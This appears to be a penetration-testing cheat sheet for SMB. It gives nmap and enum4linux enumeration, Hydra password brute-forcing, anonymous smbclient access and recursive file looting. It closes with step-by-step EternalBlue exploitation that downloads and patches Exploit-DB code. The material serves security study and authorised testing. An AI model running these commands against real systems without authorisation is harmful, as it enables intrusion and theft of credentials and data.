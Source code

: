 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: It allows clients, like workstations, to communicate with a server like a share directory. Default port is 139, 445. Samba is derived from SMB for linux.
tags: [139, 445, Active, Directory, EternalBlue, Hydra, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

To enumerate automatically, you can use nmap.

```sh
nmap --script smb-brute -p 445 <target-ip>
nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
nmap --script smb-enum* -p 445 <target-ip>
nmap --script smb-protocols -p 445 <target-ip>
nmap --script smb-vuln* -p 445 <target-ip>
```

- **Enum4linux**

    Enum4linux enumerates the users, share directories, etc.

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

- **Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

<br />

## Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb
```

<br />

## Connect

You can use smbclient to connect the target.

```sh
smbclient -L 10.0.0.1
smbclient -N -L 10.0.0.1
smbclient -N -L \\\\10.0.0.1
smbclient -L 10.0.0.1 -U username

# anonymous
smbclient //10.0.0.1/somedir -N
# with space
smbclient "//10.0.0.1/some dir" -N

# Specify shared directory
smbclient //10.0.0.1/somedir -U username
# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody

# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username
```

<br />

## Commands in SMB

After connecting, you can find the sensitive files or information.

```sh
# List files
smb> ls

# Download a file
smb> get sample.txt
```

To download files recursively, run the following commands.

```sh
smb> mask ""
smb> recurse ON
smb> prompt OFF
smb> mget *
```

Or using smbget from local machine.

```sh
smbget -R smb://<target-ip>/somedir -U username

# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username

# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous
```


<br />

## EternalBlue (MS17-010)

- **AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}{:rel="noopener"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

- **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```